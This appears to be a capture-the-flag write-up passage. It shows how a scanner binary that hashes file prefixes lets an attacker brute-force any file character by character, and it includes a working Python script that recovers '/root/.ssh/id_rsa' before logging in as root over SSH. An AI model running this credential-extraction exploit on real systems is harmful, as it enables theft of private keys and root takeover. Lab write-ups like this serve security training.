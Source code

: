 ```
```

Getting a hash of the first character of a file:

`/opt/scanner/scanner -p -c /file/to/read -s anything -l 1'`

We can extract any file by bruteforcing the hash **character by character**.

Wrote [root.py](root.py) to do that.

```python
import subprocess
import hashlib
import string


def check_n(num, path):
    out = subprocess.check_output(['/opt/scanner/scanner', '-p', '-c', f'{path}', '-s', 'test', '-l', f'{num}'])
    return out[:-1].decode().split("has hash")[1].strip()

def bruteforce(path):
    recovered = ""
    characters = "\n= " + "1234567890" + "<>,./\\;:'[]{}()!@#$%^&*|+-" + string.ascii_letters

    while True:
        hit = False
        outhash = check_n(len(recovered)+1, path)

        for c in characters:
            hit = False
            guess = hashlib.md5((recovered + c).encode('utf-8')).hexdigest().strip()

            if outhash == guess:
                recovered += c
                print(recovered)
                hit = True
                break

        if hit is False:
            break
    
    return recovered

outfile = open("/tmp/id_rsa", "w")
res = bruteforce("/root/.ssh/id_rsa")
outfile.write(res)
```

After extracting `/root/.ssh/id_rsa`:

`ssh -i id_rsa root@localhost`

`root.txt: <redacted>`
